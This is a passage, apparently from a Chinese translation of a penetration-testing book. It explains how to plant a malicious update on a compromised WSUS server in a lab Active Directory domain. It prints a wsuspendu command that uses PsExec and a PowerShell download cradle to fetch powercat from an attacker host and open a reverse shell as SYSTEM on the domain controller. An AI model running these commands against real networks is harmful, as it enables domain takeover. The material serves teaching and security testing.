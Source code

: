 到目前为止描述的所有攻击的主要结论是，确保 WSUS 更新仅通过安全的 HTTPS 传输进行。

我们的攻击范围内的最后一个攻击是如果攻击者已入侵 WSUS 服务器本身，则向客户端分发恶意更新。为此，我们将在**castelrock.sevenkingdoms.local**上部署 WSUS，并在**kingslanding.sevenkingdoms.local**上安装恶意更新，获得反向 Shell。我们需要根据 Microsoft 提供的指南[5]在实验室中部署 WSUS。

角色安装很简单。接下来的步骤是服务配置。我们将取消选中所有操作系统版本和软件的更新目标列表，因为我们不希望 WSUS 从互联网上拉取更新。最后，我们需要配置组策略，使**域控制器**(**DC**)从 WSUS 拉取更新[6]。值得一提的是，在组策略参数中，我们必须使用**完全限定域名**(**FQDN**)和端口号来指定 WSUS 服务器。

为了攻陷 DC，我们可以利用**SharpWSUS**[7]或**wsuspendu**[8]工具。计划是将反向 Shell 脚本托管在我们的 Web 服务器上，并使用**PsExec**[9]作为有效载荷下载并执行它（因为它由 Microsoft 签名）。

```
.\wsuspendu.ps1 -Inject -PayloadFile .\ps64.exe -PayloadArgs 'powershell -c "IEX(New-Object System.Net.WebClient).DownloadString(''http://192.168.56.150:8000/powercat.ps1'');powercat -c 192.168.56.150 -p 443 -e cmd"'
Get-WsusUpdate -Approval Unapproved |Approve-WsusUpdate -Action Install -TargetGroupName "DC"
```

然后，更新被安装到 DC 上，我们获得了作为**SYSTEM**的反向 Shell：

![图 10.1 – 作为 SYSTEM 在 DC 上的反向 shell](img/B18964_10_01.jpg)

图 10.1 – 作为 SYSTEM 在 DC 上的反向 shell

在本节中，我们讨论了 WSUS 最常见的攻陷路径，如中间人攻击（MitM）、缺失的补丁和 NTLM 中继攻击。我们还演示了如何利用被攻陷的 WSUS 进行横向移动，实际上使攻击者有可能完全接管基础设施。
